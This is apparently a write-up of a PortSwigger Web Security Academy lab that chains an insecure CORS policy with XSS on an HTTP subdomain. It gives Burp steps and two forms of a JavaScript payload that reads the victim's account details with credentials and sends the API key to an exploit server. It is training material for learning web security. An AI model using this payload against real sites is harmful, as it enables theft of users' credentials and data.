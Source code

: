 # CORS vulnerability with trusted insecure protocols

## Description

The website of [this lab](https://portswigger.net/web-security/cors/lab-breaking-https-attack) has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.

## Reproduction and proof of concept

1. Start Burp, foxyproxy, and with intercept off, log in with `wiener:peter` to the target site and access the account page.
2. In Burp, review the history. The API key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with:
* The origin header set to an arbitrary value
* The origin header set to `null`
* The origin header set to begin with the origin of the site
* The origin header set to end with the origin of the site

The CORS configuration allows the latter two, hence access from arbitrary subdomains, both HTTPS and HTTP, possibly because some subdomain is involved somewhere on the site, one that could be vulnerable.

4. Use HTTP history to find it. 

![CORS](/_static/images/cors7.png)

5. Open a product page, click **Check stock**. It is loaded using a HTTP URL on a subdomain, and the `productID` parameter is vulnerable to XSS. 

![CORS](/_static/images/cors8.png)

6. Create exploit (replacing `lab-id` and `exploit-server-id`):

```text
<html>
    <body>
        <script>
            document.location="http://stock.lab-id.web-security-academy.net/?productId=<script>
            var req = new XMLHttpRequest();
            var url = 'https://lab-id.web-security-academy.net/';
            
            req.onreadystatechange = function () {
                if (req.readyState == XMLHttpRequest.DONE) {
                    fetch('https://exploit-server-id/log/key=' + req.responseText)
                };
            };
            
            req.open('get', url + 'accountDetails',true);
            req.withCredentials = true;
            req.send(null);</script>&storeId=1"
        </script>
    </body>
</html>
```

As one-liner with `+` and `<` in the closing tag of the inner script url-encoded:

```text
<html>
    <body>
        <script>
            document.location="http://stock.lab-id.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest();var url = 'https://lab-id.web-security-academy.net/';req.onreadystatechange = function () {if (req.readyState == XMLHttpRequest.DONE) {fetch('https://exploit-server-id/log/key=' %2b req.responseText)};};req.open('get', url %2b 'accountDetails',true);req.withCredentials = true;req.send(null);%3c/script>&storeId=1"
        </script>
    </body>
</html>
```

7. Go to the exploit server and enter the exploit in the body field of the form.

![CORS](/_static/images/cors9.png)

8. Click **View exploit** and check you land on the log page and your API key is in the URL.
9. **Deliver exploit to victim**.
10. Go to **Access log**

![CORS](/_static/images/cors10.png)

11. Copy the administrator's API key, and enter it as solution to the lab.

## Exploitability

_If an on-path attack (MitM) between server and victim was possible, a connection to an insecure subdomain could be hijacked, and malicious JavaScript injected to exploit the CORS configuration. Unfortunately, in this lab environment on-path is not possible, so we used an alternative way of injecting JavaScript into the subdomain._
